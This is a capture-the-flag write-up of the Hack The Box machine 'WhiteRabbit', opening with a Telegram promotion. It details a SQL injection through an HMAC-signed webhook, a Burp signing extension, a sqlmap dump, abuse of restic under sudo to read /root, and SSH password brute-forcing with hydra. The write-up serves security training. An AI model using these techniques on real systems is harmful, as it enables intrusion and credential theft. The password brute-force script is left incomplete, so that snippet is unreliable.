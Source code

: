 
# HTB WhiteRabbit - Writeup (English)

**> 🚨 Real-time HTB progress, leaks, and bonus tips → [t.me/nosecpwn](https://t.me/nosecpwn**)
> Don't read. Join.

**Platform:** Linux  
**IP:** 10.10.11.63  
**Difficulty:** Insane  
**Author:** NoSec  

## Reconnaissance

```bash
22/tcp   open  ssh           OpenSSH 8.9p1 (protocol 2.0)
80/tcp   open  http          Caddy httpd
2222/tcp open  ssh           OpenSSH 8.9p1 (protocol 2.0)
```

Service info: The OS is likely Linux-based, and the Caddy web server is running.

---

## Preparation

- **Edit hosts file**
    ```bash
    sudo nano /etc/hosts
    ```
    ```
    10.10.11.XX     whiterabbit.htb status.whiterabbit.htb
    ```

- **Clock skew fix (if needed)**
    ```bash
    sudo rdate -n whiterabbit.htb
    ```

---

## Subdomain & Web Exploration

**Subdomain discovery:**

By brute-forcing the `/status/` endpoint on `whiterabbit.htb` (e.g., with gobuster or ffuf), I discovered `status.whiterabbit.htb`, which runs Uptime Kuma. A bit more digging (on [redacted URL]) led me to `/status/temp/`, where I found new subdomains:

- GoPhish: `ddb0<link>.whiterabbit.htb`
- Wiki.js: `a668<link>.whiterabbit.htb`

**Webhook investigation:**

The Wiki.js endpoint (on [redacted URL]) revealed a webhook pointing to `28e<link>.whiterabbit.htb`, which looked suspicious.

---

## Exploitation

### SQLi in Webhook

The webhook required an `x-gophish-signature` HMAC signature. I extracted the secret key from:

Source: [redacted URL]  
Key: `3CWV<key>`

I generated the HMAC using CyberChef ([redacted URL]) and tried an SQLi payload:

```bash
{"campaign_id":2,"email":"test \$"","message":"Clicked Link"}
```

I got a MySQL error, confirming the endpoint is vulnerable!

---

### Burp Suite Automation

Manual testing was too slow, so I wrote a Burp extension that automatically adds the HMAC header:

```python
from burp import IBurpExtender, ISessionHandlingAction
from java.io import PrintWriter
from datetime import datetime
import hashlib, hmac

class BurpExtender(IBurpExtender, ISessionHandlingAction):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("HMAC Header")
        PrintWriter(callbacks.getStdout(), True).println("HMAC Header OK")
        callbacks.registerSessionHandlingAction(self)
        PrintWriter(callbacks.getStdout(), True).println("Session started")
        return

    def getActionName(self):
        return "HMAC Header"

    def performAction(self, currentRequest, macroItems):
        Secret = "3CWV<redacted>"
        stdout = PrintWriter(self._callbacks.getStdout(), True)
        requestInfo = self._helpers.analyzeRequest(currentRequest)
        BodyBytes = currentRequest.getRequest()[requestInfo.getBodyOffset():]
        BodyStr = self._helpers.bytesToString(BodyBytes)
        _hmac = hmac.new(Secret, BodyStr, digestmod=hashlib.sha256).hexdigest()
        headers = requestInfo.getHeaders()
        headers.add("x-gophish-signature: sha256=" + _hmac)
        message = self._helpers.buildHttpMessage(headers, BodyStr)
        currentRequest.setRequest(message)
        return
```

Installed via Burp's Custom Extensions feature:  
🔗 https://www.pentestpartners.com/security-blog/burp-hmac-header-extensions-a-how-to/

---

### SQLmap Attack

I automated the SQLi attack with sqlmap:

```bash
sqlmap -u [redacted URL] POST --data '{"campaign_id":2,"email":"test@mail.com","message":"Clicked Link"}' -p email --proxy [redacted URL] --batch --dump --Level=5 --risk=3 -D temp -T command_log --flush
```

| ID  | Date                | Command                                                 |
|-----|---------------------|----------------------------------------------------------|
| 103 | 2024-08-30 14:40:41 | `uname -a`                                              |
| 110 | 2024-08-30 15:16:05 | `restic init --repo rest:[redacted URL]`               |

---

## Privilege Escalation

### Exploiting Restic

I found a Restic repository at [redacted URL] with the password: `ygcsv<redacted>`.  
Using it, I created a backup of `/root/`:

```bash
export RESTIC_PASSWORD=ygcsv<pass>
export RESTIC_REPOSITORY=rest:[redacted URL]
sudo /usr/bin/restic init -r .
sudo restic -r . backup /root/
sudo restic -r . dump latest /root/morpheus
```

I extracted an SSH private key for the user `morpheus` and logged in:

```bash
ssh morpheus@whiterabbit.htb -p 22
```

```bash
morpheus@whiterabbit:/home/morpheus# ls
user.txt
```

✅ User flag acquired!

---

### Neo Password Generation

I found a binary at `/opt/neo-password-generator/neopassword-generator` and analyzed it with Ghidra.  
It uses `gettimeofday()` as a seed:

- Seed formula: `tv_sec * 1000 + tv_usec / 1000`
- Then it generates a 20-character password using `rand() % 62`.

Since Neo executed it at `2024-08-30 14:40:42`, I knew the `tv_sec`, but had to bruteforce the microseconds (0–999).  
Here’s a sample Python brute-force script:

```python
from ctypes import CDLL
import datetime
libc = CDLL("libc.so.6")
seconds = datetime.datetime(2024, 8, 30, 14, 40, 42, tzinfo=datetime.timezone.utc).timestamp()
for i in range(0, 1000):
```

Generated passwords were saved:

```bash
python3 password_generator.py > passwords.txt
hydra -l neo -P passwords.txt ssh://whiterabbit.htb -t 20
```

Password found:
```nginx
WB<pass>
```

Once inside via SSH, I just used:

```bash
sudo -su
```

...and boom — got the root flag:

```bash
root@whiterabbit:~# ls
root.txt
```

---

### 🧠 Notes & Reflections – What I learned from this box

- **Webhook & SQLi abuse:** The vulnerabilities in Uptime Kuma were exciting to explore, especially with the custom HMAC handling.  
- **Restic exploitation:** Surprisingly, this backup tool enabled full privilege escalation.  
- **Binary analysis:** Brute-forcing a password generated via `gettimeofday()` required real brainwork.  
- **Automation:** Using Burp Suite and sqlmap saved tons of time, especially dealing with the HMAC headers.

---

### ⚠️ Mistakes, Pitfalls & Tips

- **Watch your clock skew!** If the system time is off, SSH and other steps can fail.  
- **Be patient with brute-force.** It took a while to find the `/status/temp/` endpoint — using the right wordlist matters.  
- **Document without spoilers.** Don’t give everything away so others can still enjoy the challenge.  
- **Double-check everything.** I verified the HMAC key twice before launching sqlmap.

---

### ✅ Summary

WhiteRabbit is a beautifully crafted box — it walks you through solid web exploitation and creative Linux privesc.  
The combination of Uptime Kuma, SQLi, Restic, and binary analysis makes this a real treat for any pentester.

Both flags captured — user and root — so I’m very satisfied. 🚀

---

**Highly recommended** for anyone who enjoys challenges and prefers creative Linux pwns over AD boxes.  
If you’ve got questions — hit me up! 💬
